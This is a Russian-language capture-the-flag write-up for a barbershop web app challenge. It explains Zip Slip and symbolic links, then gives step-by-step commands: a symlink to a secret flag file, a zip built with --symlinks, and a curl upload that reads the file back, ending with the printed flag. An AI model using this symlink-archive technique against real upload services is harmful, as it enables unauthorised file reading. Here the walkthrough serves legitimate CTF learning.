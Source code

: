 ## Капибарбер Write-Up

### Задачка

Капибарбершоп Лапы-ножницы выпустил свое приложение. Перед стрижкой клиенты загружают туда референсы, а капибарбер получает пошаговую схему работы.

Кто-то загрузил файл странного формата — и остальные референсы пропали. Теперь всем подряд стригут каре, капибарочки в шоке, а капибизнесмены гуглят магазины париков.

Разберитесь, что произошло, и по дороге забирайте файл flag.txt

Барбершоп Лапы-ножницы: t-barber-bi82zv7h.spbctf.org/

Исходники барбершопа: [barber_453fbf9.tar.gz](https://t-ctf.ru/files/barber_453fbf9.tar.gz)

### Теория

**Уязвимость Zip Slip** — это классическая уязвимость, связанная с извлечением архивов (например, ZIP), при котором злоумышленник может добиться записи файлов в произвольные директории за пределами ожидаемой папки.

Если при распаковке архива не проверяются пути, указанные в его файлах, можно создать архив, содержащий файл с путем вроде:

```bash
../../../../etc/passwd
```
И тогда при распаковке файл может быть записан в системную директорию (если есть права), что позволяет:

- перезаписать важные файлы,
- выполнить произвольный код,
- эскалировать привилегии.

**Симлинк (symbolic link)** — это ярлык на файл или папку в файловой системе. Он указывает на другой путь, как ссылка.

Пример: ln -s /real/path linkname — создаст симлинк linkname, ведущий на /real/path.

### Решение

![Скриншот 24 04 25_19 40 42](https://github.com/user-attachments/assets/c0b11875-ed98-45cc-b59a-7f723a7761cb)

Заходим на сайт и листаем ниже. Видим, что единственный интерактивный объект, с которым мы можем взаимодействовать — форма для загрузки картинки. Если картинка валидная, мы сможем её посмотреть.

![image](https://github.com/user-attachments/assets/61bf4f91-864a-4940-b451-895b2144ae93)

Посмотрев POST-запрос загрузки картинки в бурпе, увидим, что картинка складывается по адресу ../api/images/\[УНИКАЛЬНЫЙ ID]/\[НАЗВАНИЕ].jpg

![image](https://github.com/user-attachments/assets/6958bd3b-6fdf-4071-af6d-5a73af4a997d)


Далее лезем изучать исходный код. Нас интересует папка с бэкэндом. Там лежит `flag.txt` и `Dockerfile`. Открыв его, заметим следующую строчку: `COPY flag.txt /home/secret/flag.txt`. Отсюда узнаем путь до нужного нам флага. Теперь перейдем к созданию вредоносного архива.

1. Открываем терминал, указываем директорию и сперва создаем симлинк: `ln -s /home/secret/flag.txt flag.txt`.
2. Кладем в эту же папку совершенно рандомную картинку.
3. Создаем архив с симлинком `zip --symlinks exploit.zip image.jpg flag.txt`.
4. Отправляем на сайт POST-запрос через curl:
```bash
curl -X POST https://t-barber-bi82zv7h.spbctf.org/api/upload \
-F "file=@exploit.zip" \
-b "__cfduid=3d63d46b2355a43ff1fe30687b5f1f09" \
-v
```
5. В ответе получаем путь: `api/images/875401ed-61d3-48cd-b245-e44a6ee24ef7/flag.txt`
6. Добавляем путь к нашей ссылке: `https://t-barber-bi82zv7h.spbctf.org/api/images/875401ed-61d3-48cd-b245-e44a6ee24ef7/flag.txt`
7. Получаем флаг: `tctf{5ci55orHandS_4RE_B4CK_In_BUSInE55}`



